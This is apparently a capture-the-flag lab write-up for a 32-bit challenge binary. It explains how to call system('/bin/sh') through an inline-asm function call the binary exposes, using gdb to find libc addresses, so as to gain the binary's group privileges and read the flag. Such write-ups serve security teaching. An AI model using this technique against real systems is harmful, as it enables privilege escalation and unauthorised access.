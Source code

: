 # Mission 3 ~ return to libc
## Goal and instructions
Connect to bin.chall.necst.it port 22 via SSH as user [USERNAME]. You will find the files in /home/[USERNAME]/mission3.

Your goal is to read the file flag with the privileges of the group that owns the vulnerable binary.


## Compiled options
The executable program is compiled in 32bit, the stack isn't executable and the canary is inactive.
```
gcc -m32 -no-pie -fno-pie -fno-stack-protector -O0 -o mission3 mission3.c
```


## Code overview
Looking at the source code you can see that there are assembly instructions; these instructions allow you to call a function. Our goal is to call the *system(“/bin/sh”)* function, which allows us to run a shell with the same privileges as the *mission3* binary.
```
asm(
      "movl %0, %%eax\n\t"
      "push %%eax\n\t"
      "call *%1"
      :
      : "r" (mess_addr), "r" (addr)
  );
```

## Solution
Reading the assembly code carefully, we see that the user can enter two parameters: the value to be saved in EAX and the function to be called.

To make the call to *system(“/bin/sh”)*, we need to set *“/bin/sh”* inside EAX and find the address of the *system* function in order to call it.

1. Find the address of the **system** function of the *libc* library
	- open gdb
		```
		gdb mission3
		```
	- put a breakpoint 
		```
		break main
		```
	- run the program 
		```
		run
		```
	- find the system address
		```
		print system
		```
2. Figure out where to save the required parameters
	- **/bin/sh** must be saved in *mess_addr* variable that corresponds to the *message* variable.
	- **system address** must be saved in *addr* variable that corresponds to the *day*, *month* and *year* variable.
		> **note:** the *system address* must be written in decimal
3. Execute the exploitation
   	```
    	./mission3
	```
